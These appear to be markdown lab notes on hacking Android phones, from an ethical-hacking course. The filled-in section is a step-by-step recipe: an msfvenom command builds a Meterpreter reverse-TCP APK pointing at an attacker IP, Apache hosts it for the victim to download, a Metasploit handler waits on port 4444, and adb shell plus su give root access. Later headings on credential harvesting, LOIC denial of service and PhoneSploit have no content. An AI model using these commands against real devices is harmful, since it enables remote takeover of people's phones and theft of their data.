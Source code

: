 # Hacking Mobile Applications

## Hack android devices

### Hack an Android device by creating binary payloads using Parrot Security

Generating a payload for android device
```
service postgresql start
service apache2 start
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=AttackerIP R > DestinationPath/name.apk
```
To share this malicious file locally
```
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
```
Copy the malcious file into the share directory
```
cp source /var/www/html/share
```
Creating a reverse handler to listen on
```
msfconsole
use /exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost deviceip
set lport 4444
exploit -j -z
```
Goto Android Device
Open Google
http://attacker'sip/share
open and download the payload

Alternatively Exploit the freeciv service running on androi ddevice by
```
adb conect ip:port
adb shell
```
To gain root privileges
```
su
```
https://github.com/jaykali/ghost

### Harvest Users’ Credentials using the Social-Engineer Toolkit
### Launch a DoS attack on a target machine using Low Orbital Cannon (LOIC) on the Android mobile platform
### Exploit the Android platform through ADB using PhoneSploit

## Secure Android Devices using Various Android Security Tools

### Analyze a malicious app using online Android analyzers
### Analyze a malicious app using Quixxi vulnerability scanner
### Secure Android devices from malicious apps using Malwarebytes Security
